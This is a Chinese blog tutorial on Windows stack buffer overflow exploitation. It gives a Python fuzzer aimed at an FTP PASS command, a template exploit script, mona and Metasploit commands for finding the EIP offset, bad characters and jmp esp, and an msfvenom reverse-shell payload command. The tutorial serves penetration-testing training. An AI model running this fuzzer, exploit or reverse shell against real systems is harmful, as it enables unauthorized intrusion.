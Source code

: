 ```yaml
---
title: 缓冲区溢出流程
date: 2021/12/12
tags: [bufferover,渗透测试]
categories: 渗透测试
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
---
```




# 缓冲区溢出流程

### 一、**Immunity Debugger**

- 最好以管理员的身份运行Innunity debugger

- 通常有两种方法可以使用 Immunity Debugger 来调试应用程序：

1. 确保应用程序正在运行，打开 Immunity Debugger，然后使用`File -> Attach`调试器攻击正在运行的进程。
2. 打开 Immunity Debugger，然后使用它`File -> Open`来运行应用程序。

- 在 Immunity Debugger 中附加到应用程序或打开应用程序时，应用程序将被暂停。单击“运行”按钮或按 F9。

### 二、**mona**

Mona 是一个强大的 Immunity Debugger 插件，可以更轻松地利用缓出。下载：[:download:`mona.py <../_static/files/mona.py>`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)

最新版本可以在这里下载：[https](https://github.com/corelan/mona) : [//github.com/corelan/mona](https://github.com/corelan/mona)

这里找到：[https](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/) : [//www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

将 mona.py 文件复制到 Immunity Debugger 的 PyCommands 目录(通常位于C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands）。

在 Immunity Debugger 中，键入以下内容以设置 mona 的工作目录。

`!mona config -set workingfolder c:\mona\%p`

### 三、**模糊测试**

- 可以修改以下 Python 脚本，它将发送越来越长的缓冲区字符串，最终使应用程序崩溃。

```python
import socket, time, sys

ip = "MACHINE_IP" //目标IP
port = 21  
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n")
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)

```

- 检查 EIP 寄存器是否已被 A (\x41) 覆盖，并记下使崩溃发送的字节长度

### 四、**控制EIP**

以下python漏洞利用代码可用于缓冲区溢出漏洞利用的其余部分：

```python
import socket

ip = "10.0.0.1"   //目标IP
port = 21

prefix = ""
offset = 0  //EIP偏移量
overflow = "A" * offset   //无意义的填充物
retn = ""     //ESP跳板
padding = ""  //nop缓冲区(至少/x90 *16)
payload = ""  //恶意代码
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")

```

#### 寻找EIP

- 使用导致崩溃的缓冲区长度，生成一个唯一的缓冲区，以便我们可以确定覆盖 EIP 寄存器的模式中的偏移量，以及其他寄存器指向的模式中的偏移量。创建一个比崩溃缓冲区大 400 字节的模式，以便我们可以确定我们的 shellcode 是否可以立即适应。

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600    //应该将600修改为比缓冲区崩溃长度大400字节的数字
```

- 使用 mona 的 findmsp 命令，并将距离参数设置为比缓冲区崩溃大400的数字，确定EIP偏移量

```
!mona findmsp -distance 600   //600应该更改
```

- 或者在攻击机机器里使用下面的命令来确定EIP偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134   //后面的数字是EIP的值
```

### **五、查找坏字符**

- 使用 mona 生成字节数组，并默认排除空字节 (\x00)。请注意生成的 bytearray.bin 文件的位置

`!mona bytearray -b "\x00"`

- 现在生成一串与字节数组相同的坏字符。以下 python 脚本可用于生成从 \x01 到 \xff 的坏字符字符串：

```python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()

```

- 使用 mona compare 命令引用你生成的字节数组，以及 ESP 指向的地址：

```
!mona compare -f C:\mona\appname\bytearray.bin -a <esp地址>  
```

- 使用Ctrl + F4组合键可以查看之前找到的坏字符
- 注意：应该逐个排除坏字符，因为前一个坏字符可能会影响到后一个，导致好的字符被误判为坏字符

### **六、寻找跳板(ESP)**

- 使用以下指令寻找ESP，并且确保不会出现坏字符：

`!mona jmp -r esp -cpb " "  //引号内的是坏字符`

- 会显示多个ESP结果，都行，记下地址，写到代码中时地址要反过来写，因为进出顺序不同

### **七、生成有效载荷**

- 使用 msfvenom 生成反向 shell 负载，确保排除之前发现的相同错误字符：

```
msfvenom -p windows/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f py -v payload

-p 载荷类型
LHOST 本机地址
LPORT
-b 坏字符
-f 编译的语言
-v 载荷的名称
```

- 注意：生成的载荷是字节类型的，放入python3脚本的时候可能需要转换成字符串类型

### **八、预先准备 NOP**

- 如果使用了编码器（如果存在错误字符的可能性很大，请记住在有效负载之前至少添加 16 个 NOP (\x90)。
